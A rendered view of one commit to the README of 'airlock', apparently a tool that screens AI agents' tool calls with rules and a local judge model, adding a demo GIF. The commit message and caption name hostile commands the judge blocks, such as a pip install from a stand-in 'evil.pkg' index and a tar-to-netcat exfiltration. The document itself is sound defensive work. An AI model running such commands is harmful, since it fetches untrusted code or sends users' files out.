

Before and after one commit to cyberbobas/airlock, a Markdown page: README.md, the part around the change. Drawn GitHub-style; pictures changed too: docs/airlock-judge-demo.gif (added); blank space fills up the shorter version.

Commit message:
docs: add the AI judge demo GIF (same tool, opposite verdicts)
A second animated GIF showing the "moat": the local 3B judge reading the action,
not a keyword. Recorded against the real shipped model — pip install requests
allowed but an --index-url http://evil.pkg blocked; kubectl get allowed,
kubectl delete blocked; a SELECT allowed, an UPDATE blocked; a tar|nc exfil
blocked. Placed in the judge section.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -230,6 +230,10 @@ Deterministic rules settle the unambiguous. What is left is the **gray zone**
 the calls a rule marks `ask`. Airlock ships an optional local model that decides
 that gray zone: it sees ONE call the rules could not settle and returns a
 one-line verdict with a human reason.
+
+![The built-in judge deciding gray-zone calls: same tool, opposite verdicts](docs/airlock-judge-demo.gif)
+
+<sub>Same tool, opposite calls — the local 3B judge reads the *action*, not a keyword. `pip install requests` is fine; `pip install … --index-url http://evil.pkg` is not. `kubectl get pods` allowed; `kubectl delete deployment` blocked. All decided on-device, nothing leaves the machine.</sub>
 
 ```bash
 airlock ai-tier standard     # download/enable the built-in judge (one llamafile)
````
